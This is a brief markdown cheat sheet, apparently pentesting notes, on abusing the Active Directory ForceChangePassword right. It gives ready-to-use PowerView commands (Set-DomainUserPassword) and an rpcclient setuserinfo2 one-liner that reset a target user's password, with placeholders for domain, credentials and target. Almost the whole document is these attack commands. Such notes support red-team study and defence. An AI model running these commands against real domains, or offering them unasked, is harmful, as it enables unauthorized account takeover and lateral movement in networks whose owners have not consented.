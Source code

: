 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["ForceChangePassword", "active driectory", "ad", "Windows"]
---
```


---
### Abuse #1a: Change target user password

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Change Target User Password

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```powershell
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

### Abuse #1b: Change target user password

#### 1. Via rpcclient 

```bash
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <TARGET_USER_NEW_PASSWORD>'
```

<br>